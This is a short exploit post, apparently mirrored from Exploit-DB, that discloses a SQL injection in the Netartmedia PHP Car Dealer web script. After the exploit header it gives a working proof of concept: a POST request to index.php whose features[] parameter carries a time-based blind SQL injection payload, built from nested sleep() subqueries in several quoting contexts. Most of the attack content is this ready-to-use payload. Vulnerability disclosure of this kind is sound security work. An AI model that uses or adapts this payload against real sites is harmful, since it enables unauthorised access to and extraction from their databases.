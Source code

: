 ```yaml
---
layout:     post
title:      "Netartmedia PHP Car Dealer - SQL Injection"
date:       2019-03-20 12:00
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Netartmedia  PHP Car Dealer- SQL Injection
# Date: 19.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.netartmedia.net/autodealer/
# Demo Site: https://www.phpscriptdemos.com/autodealer/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A
# Description:The PHP Car Dealer script is also using a flexible
template system - the
 templates can be modified or new ones to be created in order to
completely customize the website look and feel.

----- PoC 1 SQLi -----

Request: http://localhost/[PATH]/index.php

Parameter features[] (POST)

Payload:body_style=&car_make=&car_model=1&condition=&exterior_color=&features[]=(select(0)from(select(sleep(0)))v)/*'%2B(select(0)from(select(sleep(0)))v)%2B'"%2B(select(0)from(select(sleep(0)))v)%2B"*/&fuel_type=&max_mileage=&mod=search&only_pictures=1&order_by=date&price_from=1&price_to=1&search_keyword=&search_type=search_form&transmission=&type=1&year=
